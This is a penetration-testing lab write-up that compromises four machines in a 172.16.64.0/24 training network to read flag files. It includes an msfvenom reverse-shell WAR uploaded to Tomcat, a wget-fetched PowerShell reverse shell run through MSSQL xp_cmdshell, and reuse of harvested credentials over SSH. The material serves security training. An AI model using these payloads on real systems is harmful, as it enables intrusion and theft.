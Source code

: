 ```yaml
---
description: >-
  You have been engaged in a Black-box Penetration Test (172.16.64.0/24 range).
  Your goal is to read the flag file on each machine.
---
```


# Black Box Test 1

## Discover live hosts on the network

```bash
sudo nmap -sn 172.16.64.0/24 --exclude 172.16.64.10 -oN hostAlive.nmap
cat hostAlive.nmap | grep for | awk {'print $5'} > ips.txt
sudo nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open -oG portScan.grep
```

{% hint style="info" %}
Find more [**nmap options**](https://ferx.gitbook.io/wiki/linux/command-line/nmap).
{% endhint %}

### Hosts Alive

| Host | OS |
| :--- | :--- |
| 172.16.64.101 | Linux |
| 172.16.64.140 | Linux |
| 172.16.64.182 | Linux |
| 172.16.64.199 | Windows |

## Open Ports and Running Services

###  172.16.64.101

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 22 | ssh | OpenSSH 7.2p2 |
| 8080 | http | Apache Tomcat/Coyote JSP engine 1.1 |
| 9080 | http | Apache Tomcat/Coyote JSP engine 1.1 |

### 172.16.64.140

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 80 | http | Apache httpd 2.4.18 |

### 172.16.64.182

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 22 | ssh | OpenSSH 7.2p2 |

### 172.16.64.199

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 135 | msrpc | Microsoft Windows RPC |
| 139 | netbios-ssn | Microsoft Windows netbios-ssn |
| 445 | microsoft-ds |  |
| 1433 | ms-sql-s | Microsoft SQL Server 2014 |

## Machines

### 172.16.64.101

Apache Tomcat has [http://172.16.64.101:8080/manager/html](http://172.16.64.101:8080/manager/html) as a management url. In case your authentication fail several times, a 401 page is presented, with a default username and password:

![](../../../.gitbook/assets/image.png)

```bash
# Terminal 1
nc -l -p 8080

# Terminal 2
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.64.10 LPORT=8080 -f war -o revshell.war

# 1. Upload to http://172.16.64.10/manager/html
# 2. Open the suggested url in your browser to execute the reverse shell
# 3. Go to your opened nc listener on Terminal one and execute:
find / | grep flag.txt
/home/developer/flag.txt
/home/adminels/Desktop/flag.txt

# Your results should be something like:
cat /home/developer/flag.txt
Congratulations, you got it!
cat /home/adminels/Desktop/flag.txt
You did it!
```

### 172.16.64.140

Using Dirbuster we find a secret folder called **project**. This url is accessible under **admin/admin** credentials.

![](../../../.gitbook/assets/image%20%281%29.png)

![We find suspicious files under /project/backup/test](../../../.gitbook/assets/image%20%283%29.png)

![](../../../.gitbook/assets/image%20%282%29.png)

{% embed url="http://172.16.64.140/project/backup/test/sdadas.txt" %}

```text
Driver={SQL Server};Server=foosql.foo.com;Database=;Uid=fooadmin;Pwd=fooadmin;
/var/www/html/project/354253425234234/flag.txt
```

### 172.16.64.199

```bash
# Grab payload
wget https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1;

# Substitute ip and port
sed -i 's/127.0.0.1/172.16.64.10/; s/413/1234/' mini-reverse.ps1

# Encode payload
cat mini-reverse.ps1 | iconv -f ascii -t utf16 | tail -c +3  | base64 -w 0 > encoded_payload
cat encoded_payload # We'll use this payload in our shell
# Open listener In your terminal
```

```bash
nc -lvnp 1234
```

```bash
# Use the credentials found in the fuzzed file under 
# project/backup/test in the previous machine
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py fooadmin:fooadmin@172.16.64.199
enable_xp_cmdshell
RECONFIGURE
xp_cmdshell whoami
xp_cmdshell powershell -e <payload_from_previous_step>
```

```text
cd c:\
where /r c:\ flag.txt
cd c:\Users\AdminELS\Desktop\
cat flag.txt
Congratulations! You exploited this machine! 
PS C:\Users\AdminELS\Desktop> cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEAlGWzjgKVHcpaDFvc6877t6ZT2ArQa+OiFteRLCc6TpxJ/lQFEDtmxjTcotik7V3DcYrIv3UsmNLjxKpEJpwqELGBfArKAbzjWXZE0VubmBQMHt4WmBMlDWGcKu8356blxom+KR5S5o+7CpcL5R7UzwdIaHYt/ChDwOJc5VK7QU46G+T9W8aYZtvbOzl2OzWj1U6NSXZ4Je/trAKoLHisVfq1hAnulUg0HMQrPCMddW5CmTzuEAwd8RqNRUizqsgIcJwAyQ8uPZn5CXKWbE/p1p3fzAjUXBbjB0c7SmXzondjmMPcamjjTTB7kcyIQ/3BQfBya1qhjXeimpmiNX1nnQ== rsa-key-20190313###ssh://developer:dF3334slKw@172.16.64.182:22#############################################################################################################################################################################################
```

We find at the end of the `id_rsa.pub` file there are some ssh credentials for the remaining active machine:

### 172.16.64.182

We use the credentials harvested in the Windows machine:

```bash
sshpass -p dF3334slKw ssh developer@172.16.64.182
developer@xubuntu:~$ find . | grep flag
developer@xubuntu:~$ cat flag.txt 
Congratulations, you got it!
```

